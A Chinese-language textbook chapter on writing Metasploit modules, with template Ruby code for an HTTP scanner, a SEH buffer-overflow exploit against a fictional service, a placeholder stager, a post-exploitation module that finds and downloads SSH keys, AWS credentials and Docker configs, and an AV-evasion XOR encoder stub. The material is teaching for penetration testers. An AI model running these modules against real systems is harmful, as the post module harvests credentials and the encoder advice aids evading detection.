


## 33.3 Metasploit模块开发

Metasploit Framework 是渗透测试领域事实上的标准工具，拥有超过 2,500 个公开模块和活跃的开源社区。掌握 Metasploit 模块开发能力，意味着你能将安全研究成果转化为可复用、可共享的标准化工具——这是从安全爱好者到专业安全工程师的关键跃迁。

本节从框架原理出发，逐一讲解五大模块类型的开发方法，配合完整代码模板和调试技巧，帮助你构建生产级的 Metasploit 模块。

### 33.3.1 Metasploit框架架构

#### 核心架构概览

Metasploit 采用模块化插件架构，核心组件包括：



#### 五大模块类型对比

| 模块类型 | 目录路径 | 基类 | 核心方法 | 典型用途 |
|---------|---------|------|---------|---------|
| Exploit | `modules/exploits/` | `Msf::Exploit` | `exploit` / `check` | 漏洞利用，获取目标控制权 |
| Payload | `modules/payloads/` | `Msf::Payload` | `generate` / `encode` | 定义攻击载荷（Shellcode、Meterpreter） |
| Auxiliary | `modules/auxiliary/` | `Msf::Auxiliary` | `run` / `run_host` | 扫描、Fuzz、信息收集、DoS |
| Post | `modules/post/` | `Msf::Post` | `run` | 后渗透：信息收集、提权、持久化 |
| Encoder | `modules/encoders/` | `Msf::Encoder` | `encode` | 对 Payload 进行编码绕过检测 |

#### 开发环境搭建

在开始模块开发前，需要配置开发环境：

```bash
# 1. 克隆官方仓库（开发最新版）
git clone https://github.com/rapid7/metasploit-framework.git
cd metasploit-framework

# 2. 安装依赖
bundle install
# 或使用系统包管理器
apt install ruby ruby-dev build-essential libpq-dev libpcap-dev

# 3. 创建模块目录结构
mkdir -p modules/auxiliary/scanner/http/
mkdir -p modules/exploits/windows/
mkdir -p modules/post/windows/gather/

# 4. 配置数据库（可选，用于存储扫描结果）
msfdb init
msfdb start
```

模块文件放置位置必须与模块类型对应，否则框架无法正确加载。例如 `auxiliary` 类模块必须放在 `modules/auxiliary/` 下，且文件名就是模块在框架中的名称路径（如 `modules/auxiliary/scanner/http/custom_scanner.rb` → `auxiliary/scanner/http/custom_scanner`）。

### 33.3.2 Auxiliary模块开发

Auxiliary 模块是最常用的模块类型，不需要获取 Shell，主要用于扫描、枚举、信息收集和拒绝服务测试。其特点是通过 `Msf::Auxiliary::Scanner` mixin 实现对多目标的批量扫描。

#### 完整模板：HTTP安全扫描器

```ruby
# auxiliary/scanner/http/custom_scanner.rb
require 'msf/core'

class MetasploitModule < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpClient
  include Msf::Auxiliary::Scanner
  include Msf::Auxiliary::Report

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Custom HTTP Security Scanner',
      'Description'    => %q{
        This module scans HTTP services for common security misconfigurations,
        including exposed sensitive files, missing security headers, and
        accessible administrative interfaces.
      },
      'Author'         => ['Security Researcher'],
      'License'        => MSF_LICENSE,
      'References'     => [
        ['URL', 'https://owasp.org/www-project-web-security-testing-guide/']
      ]
    ))

    register_options([
      OptString.new('TARGETURI', [true, 'The base path', '/']),
      OptBool.new('CHECK_ROBOTS', [true, 'Check robots.txt for exposed paths', true]),
      OptBool.new('CHECK_HEADERS', [true, 'Check security response headers', true]),
      OptBool.new('CHECK_SENSITIVE', [true, 'Check for exposed sensitive files', true]),
      OptInt.new('THREADS', [true, 'Number of concurrent threads', 10])
    ])
  end

  # Scanner mixin 的入口方法：对每个目标IP调用一次
  def run_host(ip)
    print_status("Scanning #{ip}:#{rport}")

    if datastore['CHECK_ROBOTS']
      check_robots_txt
    end

    if datastore['CHECK_HEADERS']
      check_security_headers
    end

    if datastore['CHECK_SENSITIVE']
      check_sensitive_files
    end
  end

  # 检查 robots.txt，提取 Disallow 路径并验证是否可访问
  def check_robots_txt
    uri = normalize_uri(target_uri.path, 'robots.txt')

    res = send_request_cgi({
      'method' => 'GET',
      'uri'    => uri
    })

    if res && res.code == 200
      print_good("robots.txt found at #{uri}")

      accessible_paths = []

      res.body.each_line do |line|
        line = line.strip
        next if line.start_with?('#') || line.empty?

        # 支持 Disallow、Allow、Sitemap 指令
        if line =~ /^(?:Dis|S)allow:\s*(.+)/i
          path = $1.strip
          next if path.empty?

          accessible = check_path(path)
          accessible_paths << path if accessible
        end
      end

      if accessible_paths.any?
        print_warning("#{ip}:#{rport} - #{accessible_paths.length} disallowed paths are actually accessible")
      end

      report_note(
        :host  => rhost,
        :port  => rport,
        :proto => 'tcp',
        :type  => 'robots.txt',
        :data  => res.body
      )
    end
  end

  # 检查关键安全响应头
  def check_security_headers
    res = send_request_cgi({
      'method' => 'GET',
      'uri'    => normalize_uri(target_uri.path)
    })

    return unless res

    security_headers = {
      'X-Frame-Options'           => 'Clickjacking防护（X-Frame-Options缺失）',
      'X-Content-Type-Options'    => 'MIME嗅探防护缺失',
      'X-XSS-Protection'         => 'XSS过滤器头缺失',
      'Content-Security-Policy'   => '内容安全策略缺失',
      'Strict-Transport-Security' => 'HSTS强制HTTPS缺失',
      'Referrer-Policy'           => 'Referrer策略缺失',
      'Permissions-Policy'        => '权限策略缺失'
    }

    missing = []
    security_headers.each do |header, message|
      unless res.headers[header]
        missing << header
        print_warning("  [MISSING] #{message}")
      else
        print_good("  [OK] #{header}: #{res.headers[header]}")
      end
    end

    if missing.any?
      report_vuln(
        :host  => rhost,
        :port  => rport,
        :proto => 'tcp',
        :name  => 'Missing security headers',
        :info  => "Missing: #{missing.join(', ')}",
        :refs  => []
      )
    end
  end

  # 检查常见敏感文件/路径泄露
  def check_sensitive_files
    vulns = [
      { path: '/admin',                    desc: '管理后台接口可访问' },
      { path: '/.env',                     desc: '环境配置文件泄露' },
      { path: '/.git/config',              desc: 'Git仓库信息泄露' },
      { path: '/wp-config.php.bak',        desc: 'WordPress配置备份泄露' },
      { path: '/phpinfo.php',              desc: 'phpinfo()信息泄露' },
      { path: '/server-status',            desc: 'Apache Server Status页面' },
      { path: '/.DS_Store',                desc: 'macOS目录缓存文件泄露' },
      { path: '/WEB-INF/web.xml',          desc: 'Java Web配置泄露' },
      { path: '/.svn/entries',             desc: 'SVN版本信息泄露' },
      { path: '/actuator/env',             desc: 'Spring Boot环境变量泄露' },
      { path: '/console',                  desc: '调试控制台暴露' },
      { path: '/debug/vars',               desc: 'Go调试信息泄露' }
    ]

    vulns.each do |vuln|
      uri = normalize_uri(target_uri.path, vuln[:path])

      res = send_request_cgi({
        'method' => 'GET',
        'uri'    => uri
      })

      if res && res.code == 200 && res.body.length > 0
        print_good("#{vuln[:desc]}: #{uri}")

        report_vuln(
          :host  => rhost,
          :port  => rport,
          :proto => 'tcp',
          :name  => vuln[:desc],
          :info  => "Path: #{uri}",
          :refs  => []
        )
      end
    end
  end

  # 验证单个路径是否可访问（用于 robots.txt 分析）
  def check_path(path)
    return false if path.nil? || path.empty?

    uri = normalize_uri(target_uri.path, path)

    res = send_request_cgi({
      'method' => 'GET',
      'uri'    => uri
    })

    if res && res.code == 200
      print_good("  Accessible disallowed path: #{uri}")
      return true
    end

    false
  end
end
```

#### Auxiliary模块开发要点

**Scanner mixin 的核心机制：**

- `run_host(ip)` — 对每个扫描目标调用一次，框架自动处理并发
- `run()` — 批量模式入口（通常不需要重写，Scanner mixin 已处理）
- `THREADS` 选项控制并发线程数，`RHOSTS` 支持 CIDR、范围、文件列表

**数据上报（Reporting）：**

- `report_note()` — 记录发现信息（如配置泄露、信息泄露）
- `report_vuln()` — 记录漏洞发现，自动关联到 Metasploit 数据库
- `report_host()` — 更新主机信息（操作系统、服务版本等）

**输出方法：**

| 方法 | 用途 | 终端颜色 |
|-----|------|---------|
| `print_status(msg)` | 一般状态信息 | 蓝色 |
| `print_good(msg)` | 发现/成功信息 | 绿色 |
| `print_warning(msg)` | 警告信息 | 黄色 |
| `print_error(msg)` | 错误信息 | 红色 |
| `print_line(msg)` | 原始文本输出 | 白色 |

### 33.3.3 Exploit模块开发

Exploit 模块是 Metasploit 的核心——它们利用漏洞获取目标系统的控制权。开发 Exploit 模块需要深入理解漏洞原理、内存布局和 Payload 编码。

#### 完整模板：远程缓冲区溢出利用

```ruby
# exploits/windows/custom_exploit.rb
require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::Tcp
  include Msf::Exploit::Seh  # SEH（结构化异常处理）利用支持

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Custom Buffer Overflow Exploit',
      'Description'    => %q{
        This module exploits a stack-based buffer overflow vulnerability
        in Example Service 1.0. The vulnerability exists in the VERSION
        command handler, which fails to validate input length before
        copying to a fixed-size stack buffer.
      },
      'Author'         => ['Security Researcher'],
      'License'        => MSF_LICENSE,
      'References'     => [
        ['CVE', '2023-12345'],
        ['EDB', '12345'],
        ['URL', 'https://example.com/advisory']
      ],
      'Payload'        => {
        'Space'    => 400,        # Payload可用空间（字节）
        'BadChars' => "\x00\x0a\x0d"  # 禁止出现在Payload中的字符
      },
      'Platform'       => 'win',
      'Targets'        => [
        [
          'Windows 10 x64 (Example Service 1.0)',
          {
            'Ret'    => 0x10015ffe,  # 返回地址（jmp esp 或 pop/pop/ret）
            'Offset' => 2606        # 覆盖到返回地址的偏移量
          }
        ]
      ],
      'Privileged'     => true,
      'DisclosureDate' => '2023-01-01',
      'DefaultTarget'  => 0
    ))

    register_options([
      Opt::RPORT(9999)
    ])
  end

  # 漏洞检测：安全检查，不执行实际利用
  def check
    connect
    sock.put("VERSION\r\n")
    res = sock.get_once

    if res && res.include?('Example Service 1.0')
      return Exploit::CheckCode::Appears
    end

    Exploit::CheckCode::Safe
  rescue Rex::ConnectionError, Errno::ECONNRESET, IOError
    Exploit::CheckCode::Unknown
  ensure
    disconnect
  end

  # 实际漏洞利用
  def exploit
    connect

    # 构造溢出缓冲区
    buf = "COMMAND "
    buf << rand_text_alpha(target['Offset'])    # 填充区
    buf << generate_seh_record(target.ret)       # SEH 链覆盖
    buf << make_nops(20)                         # NOP sled
    buf << payload.encoded                       # 编码后的 Payload

    print_status("Sending exploit buffer (#{buf.length} bytes)...")
    sock.put(buf + "\r\n")

    handler  # 处理 Payload 回连
    disconnect
  end
end
```

#### Exploit模块关键要素

**漏洞检测等级（CheckCode）：**

| 返回值 | 含义 | 对应场景 |
|-------|------|---------|
| `CheckCode::Appears` | 确认存在漏洞 | 版本号匹配、特征响应确认 |
| `CheckCode::Vulnerable` | 高度可能存在漏洞 | 通过功能测试确认可利用 |
| `CheckCode::Detected` | 检测到目标服务 | 服务存在但无法确认漏洞 |
| `CheckCode::Safe` | 未检测到漏洞 | 版本不匹配、功能正常 |
| `CheckCode::Unknown` | 无法确定 | 连接失败、超时、异常 |
| `CheckCode::Unsupported` | 不支持检测 | 模块未实现 check 方法 |

**Exploit Rank（模块可靠性分级）：**

| 等级 | 说明 | 适用场景 |
|-----|------|---------|
| `ManualRanking` | 需要手动验证 | 无自动检测，需人工判断 |
| `LowRanking` | 较低可靠性 | 依赖特定环境，失败率高 |
| `NormalRanking` | 一般可靠性 | 大多数模块的默认等级 |
| `GoodRanking` | 高可靠性 | 经过充分测试，稳定性好 |
| `ExcellentRanking` | 极高可靠性 | 非常稳定，几乎不会崩溃目标服务 |

**Payload 空间计算：**

Payload 空间（`Space`）决定了攻击载荷的最大字节限制。超过此限制会导致 Payload 被截断或利用失败。实际可用空间 = 溢出缓冲区大小 - 填充区 - 返回地址 - NOP sled。务必精确计算，否则 `handler` 会收到不完整的 Payload。

### 33.3.4 Payload模块开发

Payload 模块定义了成功利用漏洞后在目标系统上执行的代码。Metasploit 将 Payload 分为三种形态：

#### Payload 三形态

| 形态 | 说明 | 示例 |
|-----|------|-----|
| **Single** | 独立完整载荷，直接执行 | `windows/shell_reverse_tcp` |
| **Stager** | 先传输小体积引导代码，再接收Stage | `windows/meterpreter/reverse_tcp` |
| **Stage** | 由Stager接收的大型完整载荷 | Meterpreter核心、shellcode |

#### 自定义Stager Payload示例

```ruby
# payloads/stagers/windows/custom_reverse_tcp.rb
require 'msf/core/module/stager'

module MetasploitModule
  include Msf::Payload::Stager

  def initialize(info = {})
    super(merge_info(info,
      'Name'        => 'Custom Reverse TCP Stager',
      'Description' => 'Custom stager that downloads and executes a payload over TCP',
      'Author'      => ['Security Researcher'],
      'License'     => MSF_LICENSE,
      'Platform'    => 'win',
      'Arch'        => ARCH_X86,
      'Handler'     => Msf::Handler::ReverseTcp,
      'Stager'      => { 'Payload' => payload_stub }
    ))
  end

  def payload_stub
    # 这里放置实际的汇编/Shellcode
    # 通常使用 Metasm 或手写ASM
    "\xcc" * 100  # 占位符，实际开发时替换为真实stager
  end
end
```

**Payload 开发注意事项：**

- **BadChars 处理**：某些字符会导致 Payload 失效（如 `\x00` 空字节截断、`\x0a\x0d` 换行破坏协议），必须通过 `Msf::Payload::Badchars` 模块排除
- **编码选择**：`shikata_ga_nai`（SNA）是常用的多态编码器，但已被多数杀软特征检测；建议使用自定义编码器或组合编码
- **空间优化**：Stager 的核心优势是体积极小（通常 < 300 字节），适合空间受限的溢出场景
- **平台兼容**：Payload 必须匹配目标架构（x86/x64/ARM），混合架构会导致崩溃

### 33.3.5 Post模块开发

Post 模块在获取 Meterpreter 会话后运行，用于后渗透阶段的信息收集、权限提升、横向移动和持久化。

#### 完整模板：Windows后渗透信息收集

```ruby
# post/windows/gather/custom_enum.rb
require 'msf/core'

class MetasploitModule < Msf::Post
  include Msf::Post::File
  include Msf::Post::Windows::Registry

  def initialize(info = {})
    super(update_info(info,
      'Name'          => 'Windows Custom Enumeration',
      'Description'   => %q{
        This module performs comprehensive post-exploitation enumeration
        on Windows systems, including installed software, network configuration,
        user information, and sensitive file discovery.
      },
      'License'       => MSF_LICENSE,
      'Author'        => ['Security Researcher'],
      'Platform'      => ['win'],
      'SessionTypes'  => ['meterpreter']
    ))

    register_options([
      OptBool.new('ENUM_SOFTWARE',  [true, 'Enumerate installed software', true]),
      OptBool.new('ENUM_NETWORK',   [true, 'Enumerate network configuration', true]),
      OptBool.new('ENUM_USERS',     [true, 'Enumerate user information', true]),
      OptBool.new('FIND_FILES',     [true, 'Search for sensitive files', true])
    ])
  end

  def run
    print_status("Running post-exploitation enumeration on #{session.session_host}")

    enum_installed_software if datastore['ENUM_SOFTWARE']
    enum_network_config     if datastore['ENUM_NETWORK']
    enum_user_info          if datastore['ENUM_USERS']
    check_sensitive_files   if datastore['FIND_FILES']

    print_status("Enumeration complete")
  end

  def enum_installed_software
    print_status("Enumerating installed software...")

    key = 'HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall'

    begin
      installed = registry_enumkeys(key)
    rescue Rex::Post::Meterpreter::RequestError => e
      print_error("Failed to enumerate registry: #{e.message}")
      return
    end

    software_list = []

    installed.each do |app|
      app_key = "#{key}\\#{app}"
      display_name = registry_getvaldata(app_key, 'DisplayName')
      version = registry_getvaldata(app_key, 'DisplayVersion')
      publisher = registry_getvaldata(app_key, 'Publisher')

      next if display_name.nil? || display_name.empty?

      software_list << { name: display_name, version: version, publisher: publisher }
      print_good("  #{display_name} v#{version} (#{publisher})")
    end

    print_status("Found #{software_list.length} installed applications")
  end

  def enum_network_config
    print_status("Enumerating network configuration...")

    # 获取网络接口信息
    begin
      interfaces = client.net.config.interfaces
      interfaces.each do |iface|
        print_line("  Interface: #{iface.mac_name}")
        print_line("    IP: #{iface.addrs.join(', ')}")
        print_line("    MAC: #{iface.mac_addr}")
      end
    rescue => e
      print_warning("Failed to enumerate interfaces: #{e.message}")
    end

    # 获取路由表
    begin
      routes = client.net.config.routes
      print_status("Routing table:")
      routes.each do |route|
        print_line("  #{route.subnet}/#{route.netmask} via #{route.gateway}")
      end
    rescue => e
      print_warning("Failed to enumerate routes: #{e.message}")
    end

    # 获取ARP缓存（用于内网存活发现）
    begin
      arp = client.net.config.arp_table
      print_status("ARP cache (#{arp.length} entries):")
      arp.each do |entry|
        print_line("  #{entry.ip_addr} -> #{entry.mac_addr}")
      end
    rescue => e
      print_warning("Failed to enumerate ARP: #{e.message}")
    end
  end

  def enum_user_info
    print_status("Enumerating user information...")

    # 获取当前用户
    username = client.sys.config.getuid
    print_good("Current user: #{username}")

    # 获取用户权限
    begin
      privileges = client.sys.config.getprivs
      print_status("Privileges:")
      privileges.each do |priv|
        status = priv.include?('Enabled') ? '+' : '-'
        print_line("  [#{status}] #{priv}")
      end
    rescue => e
      print_warning("Failed to get privileges: #{e.message}")
    end

    # 获取系统信息
    sysinfo = client.sys.config.sysinfo
    print_status("System: #{sysinfo['Computer']} / #{sysinfo['OS']}")
  end

  def check_sensitive_files
    print_status("Checking for sensitive files...")

    sensitive_paths = [
      { path: 'C:\\Users\\*\\Desktop\\*.txt',         desc: '桌面文本文件' },
      { path: 'C:\\Users\\*\\Documents\\*.doc*',       desc: '文档文件' },
      { path: 'C:\\Users\\*\\Downloads\\*.pdf',        desc: '下载的PDF' },
      { path: 'C:\\Users\\*\\.ssh\\*',                 desc: 'SSH密钥' },
      { path: 'C:\\Users\\*\\.aws\\*',                 desc: 'AWS凭证' },
      { path: 'C:\\Users\\*\\.gitconfig',              desc: 'Git配置（可能含token）' },
      { path: 'C:\\Users\\*\\.docker\\config.json',    desc: 'Docker配置（可能含registry密码）' }
    ]

    found_count = 0

    sensitive_paths.each do |sensitive|
      begin
        files = client.fs.file.search(sensitive[:path])
        files.each do |file|
          full_path = "#{file['path']}\\#{file['name']}"
          print_good("  [#{sensitive[:desc]}] #{full_path}")

          # 下载文件到本地loot目录
          local_path = store_loot(
            'sensitive.file',
            'application/octet-stream',
            session,
            full_path,
            file['name'],
            sensitive[:desc]
          )
          print_status("  Saved to: #{local_path}")
          found_count += 1
        end
      rescue => e
        print_warning("  Search failed for #{sensitive[:path]}: #{e.message}")
      end
    end

    print_status("Found #{found_count} sensitive files")
  end
end
```

#### Post模块开发要点

**SessionTypes 对照：**

| SessionType | 说明 | 可用API范围 |
|------------|------|-----------|
| `meterpreter` | Meterpreter会话 | 最全面：文件、注册表、网络、进程、内存 |
| `shell` | 普通命令Shell | 仅支持命令行交互，功能有限 |
| `powershell` | PowerShell会话 | 支持 .NET 对象操作 |

**关键 API 命名空间：**

- `client.sys.config` — 系统配置（用户、权限、系统信息）
- `client.net.config` — 网络配置（接口、路由、ARP）
- `client.fs.file` — 文件系统操作（搜索、读写、属性）
- `client.railgun` — 直接调用 Windows API（高级用法）

**错误处理原则：** Post 模块运行在已获取的会话中，任何未捕获的异常可能导致会话丢失。务必在每个外部调用（注册表、文件搜索、网络操作）周围使用 `begin/rescue` 块。

### 33.3.6 Encoder模块开发

Encoder 模块用于对 Payload 进行编码，绕过入侵检测系统的特征匹配。

#### 编码器核心原理



#### 自定义编码器示例

```ruby
# encoders/x86/custom_xor.rb
require 'msf/core'

class MetasploitModule < Msf::Encoder

  def initialize
    super(
      'Name'             => 'Custom XOR Encoder',
      'Description'      => 'Simple XOR encoder for bypassing basic pattern matching',
      'Author'           => ['Security Researcher'],
      'License'          => MSF_LICENSE,
      'Arch'             => ARCH_X86,
      'EncoderType'      => Msf::Encoder::Type::Raw,
      'Decoder'          => {
        'Stub'   => generate_stub,
        'KeySize' => 1,
        'KeyRegister' => 'cl'
      }
    )
  end

  # 生成解码器桩代码
  def generate_stub
    # XOR解码器：使用 cl 寄存器存储密钥，循环解码
    stub = "\xe8\xff\xff\xff"          # call $+5
    stub << "\x59"                      # pop ecx
    stub << "\x31\xc9"                  # xor ecx, ecx
    stub << "\x80\x31"                  # xor byte [ecx], cl
    # ... 实际开发时需要完整实现解码逻辑
    stub
  end
end
```

**常用编码器对比：**

| 编码器 | 类型 | 特点 | 检测难度 |
|-------|------|------|---------|
| `x86/shikata_ga_nai` | 多态 | 动态生成不同解码头，每次编码结果不同 | 低（已被广泛特征化） |
| `x64/xor_dynamic` | 动态 | 64位动态XOR编码 | 中 |
| `cmd/powershell_base64` | PowerShell | Base64编码后嵌入PowerShell命令 | 中 |
| 自定义编码器 | 自定义 | 完全自定义编码/解码逻辑 | 高（无公开特征） |

### 33.3.7 模块测试与调试

模块开发完成后，必须经过严格的测试才能投入使用。

#### 语法检查

```bash
# 检查模块语法（最快验证方式）
msfconsole -q -x "use auxiliary/scanner/http/custom_scanner; info; exit"

# 批量检查所有自定义模块
find modules/ -name "*.rb" -exec ruby -c {} \;

# 使用Metasploit内置的模块加载器检查
./msfconsole -qx 'loadpath /path/to/custom/modules; search custom'
```

#### 单元测试

Metasploit 使用 RSpec 框架进行模块测试，测试文件放在 `test/modules/` 目录下：

```ruby
# test/modules/auxiliary_scanner_http_custom_scanner_spec.rb
require 'msf/core'
require 'rspec'

describe 'auxiliary/scanner/http/custom_scanner' do
  let(:mod) do
    Msf::ModuleManager.find('auxiliary/scanner/http/custom_scanner').new
  end

  it 'should have a valid name' do
    expect(mod.name).to eq('Custom HTTP Security Scanner')
  end

  it 'should register expected options' do
    expect(mod.options['RHOSTS']).not_to be_nil
    expect(mod.options['TARGETURI']).not_to be_nil
    expect(mod.options['CHECK_ROBOTS']).not_to be_nil
  end
end
```

#### 运行模块

```bash
# 在msfconsole中运行模块
msfconsole -q -x "
use auxiliary/scanner/http/custom_scanner
set RHOSTS 192.168.1.1
set RPORT 80
set TARGETURI /
set CHECK_ROBOTS true
set CHECK_HEADERS true
set THREADS 5
run
exit
"

# 使用resource脚本批量运行
cat > scan_targets.rc << 'EOF'
use auxiliary/scanner/http/custom_scanner
set THREADS 20
set CHECK_ROBOTS true
set CHECK_HEADERS true
set CHECK_SENSITIVE true
set RHOSTS file:/tmp/targets.txt
run
exit
EOF
msfconsole -q -r scan_targets.rc
```

#### 调试技巧

```bash
# 启用框架级别调试输出
msfconsole -q -d -x "use auxiliary/scanner/http/custom_scanner; run; exit"

# 在模块代码中添加调试输出
# print_debug("变量值: #{variable.inspect}")
# 在 msfconsole 中：set ConsoleVerbosity 3

# 常见错误排查
# 1. 模块不显示 → 检查文件路径是否与模块名匹配
# 2. require失败 → 确认 require 'msf/core' 在文件首行
# 3. Payload空间不足 → 调整Offset或减少Payload大小
# 4. 连接失败 → 检查防火墙、端口、协议设置
```

### 33.3.8 模块开发最佳实践

#### 代码规范

```ruby
# 1. 始终使用 normalize_uri() 处理路径拼接
uri = normalize_uri(target_uri.path, 'admin')
# ❌ 错误: uri = target_uri.path + '/admin'

# 2. 始终检查 send_request_cgi() 的返回值
res = send_request_cgi({...})
return unless res  # ❌ 不检查直接使用会NPE

# 3. 使用 report_vuln() 上报漏洞（自动写入数据库）
report_vuln(
  :host  => rhost,
  :port  => rport,
  :proto => 'tcp',
  :name  => 'Vulnerability Name',
  :info  => 'Description',
  :refs  => ['CVE-2023-12345']
)

# 4. 使用 Rex 库处理网络操作
# Rex::Socket::TCP — TCP连接
# Rex::Proto::Http::Client — HTTP客户端
# Rex::Encoder — 编码器

# 5. 模块必须处理异常
def run
  # ...
rescue Rex::ConnectionError
  print_error("Connection failed")
rescue Rex::TimeoutError
  print_error("Connection timed out")
rescue => e
  print_error("Unexpected error: #{e.message}")
end
```

#### 模块提交规范

开发完成后，可通过以下方式贡献给 Metasploit 社区：

```bash
# 1. Fork rapid7/metasploit-framework 仓库
# 2. 创建功能分支
git checkout -b modules/my-custom-scanner

# 3. 按照目录规范放置模块文件
# modules/auxiliary/scanner/http/my_custom_scanner.rb
# test/modules/auxiliary_scanner_http_my_custom_scanner_spec.rb

# 4. 编写模块文档
# documentation/modules/auxiliary/scanner/http/my_custom_scanner.md

# 5. 确保通过CI测试
bundle exec rake spec

# 6. 提交 Pull Request
git commit -m "Add custom HTTP security scanner module"
git push origin modules/my-custom-scanner
```

**提交质量要求：**

- 模块必须有 `check` 方法（Exploit模块）
- 必须有 `Description` 且详细描述漏洞/功能
- 必须有 `References`（CVE、EDB、URL至少一个）
- 必须通过 `rubocop` 代码风格检查
- 必须有对应的单元测试
- 必须有模块使用文档

---

Metasploit模块开发是安全工具化的高级实践。通过掌握框架架构和各类模块的开发方法，你不仅能快速验证安全研究成果，还能将其转化为标准化、可复用的专业工具。在下一节中，我们将通过综合实战案例，将这些开发技巧应用于真实的漏洞挖掘和利用场景。
